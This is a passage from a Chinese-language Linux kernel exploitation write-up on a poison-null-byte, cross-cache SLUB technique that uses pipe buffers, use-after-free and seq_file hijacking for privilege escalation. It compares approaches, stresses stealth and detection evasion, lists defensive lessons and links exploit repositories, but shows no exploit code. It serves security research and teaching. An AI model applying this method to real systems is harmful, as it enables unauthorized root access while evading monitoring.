| 内存布局   | 简单slab隔离与空洞创建   | 精细管道页面共享拓扑构建       |
| 控制流劫持 | 网络协议栈路径劫持       | 文件系统序列操作路径劫持       |
| 隐蔽等级   | 中等（需修改关键结构）   | 高（单字节修改+合法路径触发）  |

#### 6-7-2. 技术优势与局限

**技术优势**：

1. **高度隐蔽性**：单字节溢出操作极难被基于异常值或代码签名的检测机制识别，规避传统安全防护
2. **可靠性强**：依赖稳定的内核对象生命周期（管道/seq_file），相较堆喷射成功率更稳定
3. **通用性好**：不依赖特定设备驱动，适用于多数Linux发行版的通用内核设施
4. **资源友好**：内存占用和系统扰动相对较小，对目标系统性能影响有限
5. **路径合法**：全程利用合法系统调用路径，避免触发异常行为监测

**技术局限**：

1. **环境依赖**：需要精确的堆分配模式和缓存状态，内存碎片可能降低成功率
2. **时序敏感**：操作顺序和时间窗口要求严格，并发干扰可能导致竞态条件
3. **兼容性挑战**：不同内核版本的SLUB实现差异与结构体布局变化影响适配性
4. **防御规避**：需额外措施应对现代内核的堆随机化与隔离强化机制

#### 6-7-3. 防御视角的启示

1. **堆完整性保护**：加强SLUB分配器的边界检查和元数据验证，引入运行时堆一致性审计
2. **对象隔离强化**：增加不同类型对象间的内存隔离机制，防止跨缓存类型混淆
3. **指针完整性**：引入函数指针签名验证与控制流完整性（CFI）检查，防范非法跳转
4. **行为监控**：实时检测异常的对象重叠和类型混淆行为，建立内存操作基线
5. **随机化增强**：扩大内核地址与堆布局的随机化粒度，降低布局预测成功率

### 6-8. 技术实现总结

本技术实现展示了Poison Null Byte在内核漏洞利用中的高阶应用，通过单字节溢出引发链式反应，最终实现权限提升。与第四章的技术方案形成递进关系，体现了从基础溢出到精细堆操作的技术进化路径。整个流程涵盖了环境准备、内存布局、对象操作、信息泄露、控制流劫持等完整技术要素，为系统安全研究提供了深层视角。

技术实现中采用的管道共享页面构造、UAF利用、seq_file重定向等方法，结合`alloc_pipe_info`、`pipe_resize_ring`、`pipe_buf_release`、`free_pipe_info`、`pipe_release`等内核管道管理函数的精确操控，揭示了内核对象管理的潜在脆弱性，同时也为防御体系建设提供了实证参考。通过对SLUB分配器行为的深入理解和精确操控，展示了现代系统安全技术的复杂性和精密性。这种研究不仅有助于理解现有防御机制的局限性，也为未来安全体系的改进指明了方向，体现了技术研究的建设性价值。

### 6-9. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/CrossCacheOverflow2
- https://github.com/BinRacer/pwn4kernel/tree/master/src/CrossCacheOverflow3
- https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html
- https://bsauce.github.io/2022/11/07/castaways/
- https://github.com/arttnba3/Linux-kernel-exploitation/blob/main/tools/kernelpwn.h
